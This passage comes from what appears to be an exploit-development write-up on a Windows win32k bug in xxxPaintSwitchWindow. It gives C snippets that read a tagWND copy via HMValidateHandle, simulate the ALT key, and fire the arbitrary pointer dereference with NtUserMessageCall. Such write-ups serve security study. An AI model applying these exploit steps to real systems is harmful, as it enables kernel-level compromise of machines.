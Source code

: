 Since we decided to provide the address of our target tagWND structure + 0x88, the vulnerable function will check the DWORD at offset
0xF0 (0x88 + 0x6C) of the target tagWND address.

The DWORD at address 0xF0 will contain the lowest 32 bits of the <i>spwndLastActive </i> field of the target tagWND object.

Since we can get a read-only copy of the tagWND object by calling the HMValidateHandle function, we can just check the value of the DWORD at the offset 0xF0
to determine how to simulate the pressing of the ALT button.

{% highlight c %}
if(*((DWORD*)(tagWNDUsermodeCopy + 0xF0)) == 0){
	INPUT inputData = { 0 };
	inputData.type = INPUT_KEYBOARD;
	inputData.ki.wVk = VK_MENU;
	inputData.ki.dwFlags = 0;

	SendInput(1, &inputData, sizeof(inputData));

}
else{
	BYTE keyState[256];
	GetKeyboardState(keyState);
	keyState[VK_MENU] |= 0x80;
	SetKeyboardState(keyState);

}

{% endhighlight %}

#### Sending the WM_ERASEBKGND to the target Window

So here we are! We will now send the WM_ERASEBKGND message to the target Window by calling the NtUserMessageCall API.
Sending this message will trigger the execution of the xxxPaintSwitchWindow on the vulnerable code path where the arbitrary pointer dereference occurs!

{% highlight c %}

NtUserMessageCall(targetWindow,0x14,0,0,0,0xE0,1); //0x14 is WM_ERASEBKGND
{% endhighlight %}



Let’s take a look at our target tagWND object before sending the WM_ERASEBKGND message:

<div align='center'><img src="/images/tagWNDBefore1.png" height="300" width="700" > </div> <br>